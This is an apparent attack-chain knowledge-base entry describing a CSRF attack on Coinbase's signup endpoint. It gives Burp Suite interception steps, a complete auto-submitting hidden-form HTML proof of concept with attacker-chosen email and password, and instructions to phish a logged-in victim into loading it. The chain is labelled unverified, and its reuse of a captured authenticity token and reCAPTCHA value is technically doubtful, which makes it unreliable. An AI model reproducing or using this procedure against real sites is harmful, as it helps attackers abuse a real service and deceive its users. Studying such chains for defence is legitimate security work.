

---
tags:
  - csrf
  - web
  - account-creation
  - coinbase
type: attack_chain
tools:
  - '[[tools/Burp-Suite-Professional]]'
tactics:
  - '[[Initial Access]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Exploit-CSRF-in-Web-Signup-Form]]'
step_count: 3
techniques:
  - '[[Exploit Public-Facing Application]]'
updated_at: '2025-12-14T17:27:03.546Z'
description: >-
  A multi-step attack chain exploiting a CSRF vulnerability in Coinbase's user
  signup process to force account creation on behalf of a victim using a
  malicious HTML form.
skill_level: intermediate
impact_level: low
id: decf1d8b-6e26-4120-8b93-5fca6b466ab7
validated: true
mitre_tactics:
  - '[[Initial Access]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
---
# CSRF Exploitation in Coinbase User Signup to Create Unauthorized Accounts

Multi-stage attack chain demonstrating a complete CSRF workflow against Coinbase's signup endpoint, allowing unauthorized account creation via a forged request.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | Low |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Burp-Suite-Professional]]

### Target Environment

- Web platform
- Access to https://www.coinbase.com/users POST endpoint
- Victim must have an active session (e.g., logged-in state)

### Initial Access Requirements

- Attacker needs to trick victim into loading the malicious HTML page (e.g., via phishing link)
- No prior credentials required, but victim session assumed
- Network access to Coinbase domain

## Detailed Attack Procedures

### Step 1: Intercept Signup Request
procedure: [[procedures/Exploit-CSRF-in-Web-Signup-Form]]

**Objective**: Capture the legitimate signup POST request to extract parameters like authenticity_token for reuse in the CSRF attack.

**Instructions**: Configure Burp Suite as a proxy in the browser, initiate the signup process on Coinbase, and intercept the request.

Use Burp Suite to monitor traffic:

- Set browser proxy to Burp (e.g., 127.0.0.1:8080)
- Navigate to https://www.coinbase.com and click signup
- Enter dummy data and submit to capture the POST to /users

**Expected Output**: Intercepted request showing parameters: utf8, authenticity_token, user[first_name], user[last_name], user[email], user[password], g-recaptcha-response, user[accepted_user_agreement], commit.

**Success Indicators**:
- Full POST request captured with all form fields
- Authenticity_token extracted (e.g., a long base64 string)

### Step 2: Build CSRF POC Form
procedure: [[procedures/Exploit-CSRF-in-Web-Signup-Form]]

**Objective**: Construct a malicious HTML page that replicates the signup form, embedding the extracted token to bypass CSRF checks.

**Instructions**: Create an HTML file with a hidden form that auto-submits the intercepted parameters, modified for attacker control.

Example HTML POC:

```html
<!DOCTYPE html>
<html>
<body>
<form id="csrf-poc" action="https://www.coinbase.com/users" method="POST">
  <input type="hidden" name="utf8" value="&#x2713;">
  <input type="hidden" name="authenticity_token" value="[EXTRACTED_TOKEN]">
  <input type="hidden" name="user[first_name]" value="Victim">
  <input type="hidden" name="user[last_name]" value="User">
  <input type="hidden" name="user[email]" value="attacker@gmail.com">
  <input type="hidden" name="user[password]" value="weakpass123">
  <input type="hidden" name="g-recaptcha-response" value="[EXTRACTED_RECAPTCHA]">
  <input type="hidden" name="user[accepted_user_agreement]" value="1">
  <input type="hidden" name="commit" value="Create Account">
</form>
<script>document.getElementById('csrf-poc').submit();</script>
</body>
</html>
```

Replace placeholders with intercepted values.

**Expected Output**: Valid HTML form ready for hosting or direct loading.

**Success Indicators**:
- Form parameters match intercepted request
- Auto-submit script included for drive-by execution

### Step 3: Test Malicious Form Submission
procedure: [[procedures/Exploit-CSRF-in-Web-Signup-Form]]

**Objective**: Load the POC in a victim's browser context to trigger unauthorized account creation and verify via email.

**Instructions**: Host the HTML or load it locally in a browser with an active Coinbase session, modify email/password as needed, and submit.

- Open the HTML file in Firefox (or victim's browser)
- Ensure victim is logged into Coinbase (session active)
- Form auto-submits; monitor network for POST to /users

**Expected Output**: HTTP 200/302 response from Coinbase, followed by email verification sent to the specified address.

**Success Indicators**:
- Account creation confirmed (e.g., redirect to verification page)
- Verification email received at attacker-controlled address
- No user interaction required beyond loading the page

## Attack Chain Summary

### Key Achievements

1. Successful interception of signup parameters using Burp Suite
2. Creation of a functional CSRF POC that bypasses authenticity_token checks
3. Demonstration of unauthorized account creation with low-severity impact due to reCAPTCHA and non-reproducibility

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]

---
*Last updated: 2023-10-01T00:00:00Z*
